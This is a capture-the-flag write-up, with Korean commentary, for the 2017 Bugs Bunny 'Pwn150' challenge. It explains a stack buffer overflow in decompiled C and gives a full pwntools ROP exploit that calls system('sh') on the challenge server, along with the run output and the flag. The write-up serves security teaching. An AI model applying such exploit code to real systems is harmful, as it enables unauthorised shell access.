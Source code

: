 # 2017 bugsbunny - [PWN] Pwn150

## Key words

- x86_64 simple stack bof
- gdb : set follow-fork-mode [child | parent]

## Check Security

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

```c
signed __int64 Hello()
{
  signed __int64 result; // rax@2
  char s; // [sp+0h] [bp-50h]@1
  FILE *v2; // [sp+48h] [bp-8h]@1

  printf("Hello pwner, Send me your message here: ");
  fflush(stdout);
  fgets(&s, 0xC0, stdin);
  v2 = fopen("bugsbunny.txt", "a");
  if ( v2 )
  {
    fwrite(&s, 0x40uLL, 1uLL, v2);
    result = 0LL;
  }
  else
  {
    puts("So shorry cant talk to you now :( ");
    result = 1LL;
  }
  return result;
}
```

문제를 보면 입력 받는 스트링에서 `rbp`까지 `0x50`인데 입력을 받는게 `0xc0`를 입력 받기 때문에 `Stack BOF`가 발생합니다. 

문제에 `NX`가 켜져있기 때문에 쉘 코드를 올려 뛸수가 없기 때문에 `ROP`를 구성하여 쉘을 획득 합니다.

문제 바이너리에서 이미 `system`함수를 사용했기 때문에 이를 이용하고, 바이너리 내부에 존재하는 `sh\x00` 문자열을 함수의 첫 번째 인자인 `$rdi`에 넣고 호출 합니다.

## Exploit Code

```python
from pwn import *

server = "54.67.102.66"
port   =  5253

system_addr = 0x4005e0

p = remote(server, port)
e = ELF("./pwn150")

pr = 0x400882
sh = 0x6003ef
pop_rdi_ret = 0x400883

print p.recv()

payload = ""
payload += "A" * 0x50
payload += "B" * 8 # rbp
payload += p64(pop_rdi_ret)
payload += p64(sh)
payload += p64(e.plt["system"])

p.sendline(payload)
p.sendline("cat /home/pwn150/flag")
print p.recv()
print p.recv()
```

## Result

```
tbkim@ubuntu:~/ctf/pwnable/0014_2017_bugsbunny_pwn150$ python sol_pwn150.py 
[+] Opening connection to 54.67.102.66 on port 5253: Done
[*] '/home/tbkim/ctf/pwnable/0014_2017_bugsbunny_pwn150/pwn150'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Wed Aug  2 08:01:55 UTC 2017

Hello pwner, Send me your message here: 
Bugs_Bunny{did_i_help_you_Solve_it!oHH_talk_to_hacker:D}

[*] Closed connection to 54.67.102.66 port 5253
```